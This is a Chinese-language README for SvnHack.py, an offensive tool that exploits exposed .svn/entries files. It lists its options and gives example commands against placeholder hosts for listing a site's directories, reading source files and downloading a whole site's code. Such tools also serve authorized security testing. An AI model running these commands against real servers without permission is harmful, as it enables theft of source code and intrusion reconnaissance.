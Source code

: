 SvnHack
=
 
Svn信息泄露利用工具，该脚本功能包括：列取网站目录、读取源码文件、下载整站代码。
 
Usage: SvnHack.py [options]
 
Options:
 
  -h, --help            show this help message and exit
 
  -u Url, --url=Url     add a svn url.
 
  -d Dic, --dic=Dic     list a directory.
 
  -r READFILE, --read=READFILE   read a file.
 
  --download            download the entire station.

例子
=
列取目录: 
 
    - 根目录       python SvnHack.py -u http://x.x.x.x/.svn/entries  
 
    - 指定目录     python SvnHack.py -u http://x.x.x.x/.svn/entries  -d scripts
 
读取源码文件:
 
    -  指定文件    python SvnHack.py -u http://x.x.x.x/.svn/entries  -d scripts -r  upd.js
 
下载整站代码:          
 
    -              python SvnHack.py -u http://x.x.x.x/.svn/entries  —download
 
